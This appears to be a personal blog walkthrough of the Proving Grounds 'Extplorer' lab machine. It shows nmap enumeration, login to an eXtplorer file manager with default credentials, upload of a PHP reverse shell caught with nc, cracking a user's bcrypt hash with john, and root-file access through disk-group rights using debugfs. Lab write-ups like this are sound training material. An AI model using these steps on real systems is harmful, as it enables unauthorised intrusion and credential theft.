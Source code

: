 ```yaml
---
date: '2024-10-24'
before : '2024-10-17'
after : '2024-10-26'
title: 'Proving Grounds : Extplorer'
categories: ['proving_grounds', 'pentest', 'ENG']
summary: 'Solving Extplorer machine from Proving Grounds'
thumbnail: '../contentImages/extplorer/5.png'
---
```



Starting with nmap scan
```
┌──(hlee㉿kali)-[~]
└─$ sudo nmap 192.168.155.16 -p- -T4
[sudo] password for hlee: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-24 11:31 EDT
Nmap scan report for 192.168.155.16
Host is up (0.027s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 96.92 seconds
```
As I visited port 80
![image](../contentImages/extplorer/3.png)
This is a wordpress application. Let's continue with enumeration

## 2. Initial Foothold

I initially started with nmap wordpress scan.
```
┌──(hlee㉿kali)-[~]
└─$ sudo nmap 192.168.155.16 -p80 -T4 --script=http-wordpress-*
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-24 11:38 EDT
Nmap scan report for 192.168.155.16
Host is up (0.025s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-wordpress-enum: 
| Search limited to top 100 themes/plugins
|   plugins
|_    akismet 5.1

Nmap done: 1 IP address (1 host up) scanned in 42.86 seconds
                                                                
```
I found akismet 5.1 plugin, but nothing useful I guess.

If I try to set the config like this:
![image](../contentImages/extplorer/4.png)

Error pops up because server doesnt have sql service running. I opened port 8000 and tried it once more with MY_IP:8000
```
┌──(hlee㉿kali)-[~]
└─$ nc -lvnp 8000
listening on [any] 8000 ...
connect to [192.168.45.192] from (UNKNOWN) [192.168.155.16] 41808
```
So it actually tries to connect us. But naturally it isn't a shell. Dead end here.

I found with ffuf an interesting endpoint, /filemanager. As I visited:
![image](../contentImages/extplorer/5.png)
Our machine name was kind of a straight hint I guess. There were several exploits for extplorer. Since we don't have a version name, we need to brute-force for a little bit.

We could log in with default credential admin:admin.
![image](../contentImages/extplorer/6.png)

We can see every files under /wp-admin and also can upload a file. If we can upload a php file and also **access** it, we can simply upload a revshell! I uploaded revshell.php which I created with Reverse shell generator and visited

> 192.168.155.16/wp-admin/revshell.php

Then I got a shell!
```
┌──(hlee㉿kali)-[~]
└─$ nc -lvnp 80  
listening on [any] 80 ...
connect to [192.168.45.192] from (UNKNOWN) [192.168.155.16] 45140
Linux dora 5.4.0-146-generic #163-Ubuntu SMP Fri Mar 17 18:26:02 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 16:40:26 up  1:12,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

But I still can't get local.txt.

## 3. PrivEsc to dora

![image](../contentImages/extplorer/7.png)
We found a hash for dora user at our extplorer application, under /filemanager/xxxx/...(find it yourself!). Let's try to crack it!

```
┌──(.venv)─(hlee㉿kali)-[~/oscp/offsec/extplorer]
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 256 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
doraemon         (?)     
1g 0:00:00:02 DONE (2024-10-24 13:01) 0.4975g/s 752.2p/s 752.2c/s 752.2C/s gonzalez..something
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
doaremon is actually my favorite character :)

Then I did su dora.

## 4. PrivEsc to root

I found that dora is:
```
uid=1000(dora) gid=1000(dora) groups=1000(dora),6(disk)
```
disk group is not a normal one. Let's google about it.

> https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe

![image](../contentImages/extplorer/8.png)
It's **almost** root privilege, it says! Let's follow the steps and gain root privilege
```
dora@dora:/$ df -h
df -h
Filesystem                         Size  Used Avail Use% Mounted on
/dev/mapper/ubuntu--vg-ubuntu--lv  9.8G  5.1G  4.2G  55% /
...
```
I assumed that the first Filesystem is our mounted "/".
```
dora@dora:/$ debugfs /dev/mapper/ubuntu--vg-ubuntu--lv
debugfs:  cd /root
debugfs:  ls
ls
 131076  (12) .    2  (12) ..    265478  (12) .ssh    265574  (12) snap   
 131077  (16) .bashrc    131078  (16) .profile    142303  (24) .bash_history   
 265709  (16) .cache    265469  (36) .local    132363  (20) proof.txt   
 132531  (3908) flag4.txt   
debugfs:  cat proof.txt
cat proof.txt
5afd64bd1c723ea7f400751b13d9ad05
```
Done!

Lesson learned: check for group privilege! (bad habit: only checking for sudo -l, pspy and suid permission)

---
## Source

- Proving Grounds
- Me!